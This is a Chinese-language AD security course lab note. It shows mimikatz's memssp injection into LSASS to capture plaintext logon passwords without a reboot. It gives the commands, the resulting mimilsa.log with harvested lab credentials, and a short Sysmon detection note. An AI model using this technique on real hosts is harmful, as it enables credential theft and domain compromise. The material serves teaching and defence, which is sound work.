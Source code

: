```yaml
---
title: NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
tags: [information security, NTUSTISC, AD]

category: "Security/Course/NTUST ISC/AD/3. 更多密碼"
---
```


# NTUSTISC - AD Note - Lab(無法Reboot的時盜取Passwd)
<!-- more -->
[TOC]

Lecture Video: [2022/05/04 AD 安全1](https://youtu.be/Cv2gNQkDM8Q?si=l1na5hFGpAPk6Uux&t=4257)

## Background
如果遇到不能重開機的狀況，要怎麼前面提到的明文密碼呢?可以利用MEMSSP，它也是mimikatz設計的一個小後門，只要提升debug權限，再注入這個後門，之後等其他人登入到此主機，就可以被這個後門記錄起來

## Lab

### ==無法Reboot的時盜取Passwd==
1. Inject memssp
    記得用系統管理員權限開mimikatz
    ```bash
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # misc::memssp
    Injected =)
    ```
2. Relogin
重新登出再登入才會看到
3. Result
    在`C:\Windows\System32\mimilsa.log`
    ```bash
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f7c0f] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80d1] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001f80e8] kuma\DESKTOP-G95U93T$	maj"2g<h(&iQZ7kqFHQ4X&c;_wQq3V;*gq.(A=4&)\2eesNp8S=W)C,"nM:ns?6m.%;K4+CSGDFew>VaNQ;N_)?mB1\P9udE7Gs'Lsr ccxo*CyL=JdK"'kF
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc85a] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    [00000000:001fc7f9] kuma\bear	1qaz@WSX3edc
    ```
    可以看到這個log file用明文的方式新增了我們剛剛打入的密碼

### ==How to detect it?==
一樣是用Sysmon的Event ID: 11可以知道，但因為之前安裝不成功所以只能Skip，不過原理就是他是去偵測lsass.exe建立mimilsa.log的瞬間